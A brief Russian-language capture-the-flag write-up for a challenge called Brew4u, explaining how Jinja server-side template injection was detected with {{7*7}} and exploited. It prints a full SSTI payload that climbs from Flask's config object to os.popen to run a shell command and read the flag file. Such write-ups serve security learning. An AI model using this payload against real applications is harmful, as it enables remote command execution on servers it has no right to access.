



# Brew4u

\
Переходим по ссылке https://hackersnhops-stop-changing-the-flag.chals.io/ , видим подсказку о том где лежит флаг и что судя по всему мы имеем дело с Jinja, которая известна своим SSTI\
\
Проверяем догадку про SSTI введя в поле {{7*7}}\
\
Действительно SSTI, пишем новый шаблон для доступа к флагу\
`{{ (config|attr("__class__")).from_envvar["__globals__"]["__builtins__"]["__import__"]("os").popen("cat flag.txt").read() }}`\
Отправляем и получаем флаг\
